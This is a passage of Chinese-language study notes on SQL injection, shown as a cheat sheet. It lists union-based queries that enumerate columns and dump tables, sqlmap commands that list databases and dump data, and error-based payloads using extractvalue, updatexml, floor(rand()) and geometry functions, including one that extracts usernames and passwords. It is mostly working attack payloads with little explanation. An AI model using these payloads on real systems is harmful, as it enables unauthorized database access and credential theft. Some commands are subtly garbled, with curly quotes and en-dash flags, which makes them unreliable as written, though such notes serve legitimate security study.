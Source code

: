 >
>       -   ```sql
>           select 1, group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='表名'
>           或
>           select 1, group_concat(column_name),3 from information_schema.columns where table_name='表名
>           ```
>
>   -   查询指定表中的所有数据
>
>       -   ```sql
>           select 1, group_concat(字段名 separator '-'),group_concat(字段名 separator '-') from 表名
>           ```
>
>   -   sqlmap注入命令
>
>       -   ~~~c++
>           ```
>           sqlmap -u “注入地址” -v 1 –-dbs # 列举数据库
>           sqlmap -u “注入地址” -v 1 –-current-db # 当前数据库
>           sqlmap -u “注入地址” -v 1 –-users # 列数据库用户
>           sqlmap -u “注入地址” -v 1 -D “数据库” –-tables # 列举数据库的表名
>           sqlmap.py -u “注入地址” -v 1 -T “表名” -D “数据库” –-columns # 获取表的列名
>           sqlmap.py -u “注入地址” -v 1 -T “表名” -D “数据库” -C “字段” –-dump # 获取表中的数据
>           ```
>           ~~~
>
>   -   ==单引号报错注入==（报错回显盲注）
>
>       -   对数据库中的xml文档故意报错，0x7e = ~ 利用这种方式，对后台进行一个排序，指定一个参数为null，
>
>       -   让它故意报错，**将第二个参数中的语句带入数据库执行**，最后报错显示执行结果
>
>       -   ```sql
>           0x7e = ~
>           MySQL 5.1.5版本以上才支持该函数
>              ^extractvalue(1,concat(0x5c,(select(database()))))%23
>           and (extractvalue(1,concat(0x7e,(select(user())),0x7e))%23)
>           and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='web_sqli')))#
>
>   
>
>   ```nginx
>       -- 也适用于update
>           		(updatexml(1,concat(0x7e,data(),0x7e),1))#
>       and updatexml(1,concat(0x7e,(version())),0) --+
>       and updatexml(1,concat(0x7e,(version())),0) #
>       and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),0)#
>   ```
>
>
>   ```nginx
>       and geometrycollection((select * from(select * from(select user())a)b));
>   
>       union select 1,count(*),concat((floor(rand(0)*2)),'--',(select concat(id,'-',username,'-',password) from 数据库名.表名 limit 0,1)) x from information_schema.tables group by x %23
>   
>       几何函数报错注入
>       [5.5<mysql版本<5.6]geometrycollection()，
>       multipoint()，polygon()，multipolygon()，linestring()，multilinestring()
>   ```